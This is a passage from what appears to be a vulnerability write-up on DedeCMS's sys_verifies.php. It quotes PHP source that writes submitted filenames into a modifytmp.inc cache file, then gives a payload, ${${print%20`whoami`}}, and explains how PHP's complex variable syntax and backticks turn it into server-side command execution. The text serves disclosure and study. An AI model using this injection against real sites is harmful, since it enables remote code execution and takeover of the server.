 ```php
        $dirinfos = '<tr bgcolor="#ffffff"><td colspan="2">';
        $dirinfos .= "本次升级需要在下面文件夹写入更新文件，请注意文件夹<font color='red'>是否有写入权限：</font><br />\r\n";
        foreach($dirs as $curdir)
        {
            $dirinfos .= $curdir['name']." 状态：".($curdir['writeable'] ? "[√正常]" : "<font color='red'>[×不可写]：请手动创建该目录</font>")."<br />\r\n";
        }
        $dirinfos .= "</td></tr>\r\n";
    }
        
    $doneStr = "<iframe name='stafrm' src='sys_verifies.php?action=down&curfile=0' frameborder='0' id='stafrm' width='100%' height='100%'></iframe>\r\n";
    
    include(DEDEADMIN.'/templets/sys_verifies_getfiles.htm');
    
    exit();
}
```

**Payload:**

```php
17${${print%20`whoami`}}
```

1. **Injection Process:**

   - This payload is submitted to the `getfiles` action of `sys_verifies.php`.
   - After processing, it is written into the `modifytmp.inc` cache file, generating content similar to:

   ```php
   $files[0] = "${${print%20`whoami`}}";
   ```

2. **Variable Parsing Syntax:**

   - `${...}` is PHP's complex variable syntax.
   - The inner `${print%20`whoami`}` is also a variable parsing structure.
   - `%20` is the URL-encoded space.
   - Backticks ``whoami`` execute a system command.

### Trigger

- 
![image.png](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505221337659.png)

```php
/*-----------------------
下载文件
function _getfiles()
------------------------*/
else if ($action == 'getfiles')
{
    if(!isset($refiles))
    {
        ShowMsg("你没进行任何操作！","sys_verifies.php");
        exit();
    }
    $cacheFiles = DEDEDATA.'/modifytmp.inc';
    $fp = fopen($cacheFiles, 'w');
    fwrite($fp, '<'.'?php'."\r\n");
    fwrite($fp, '$tmpdir = "'.$tmpdir.'";'."\r\n");
    $dirs = array();
    $i = -1;
    $adminDir = preg_replace("#(.*)[\/\\\\]#", "", dirname(__FILE__));
    foreach($refiles as $filename)
```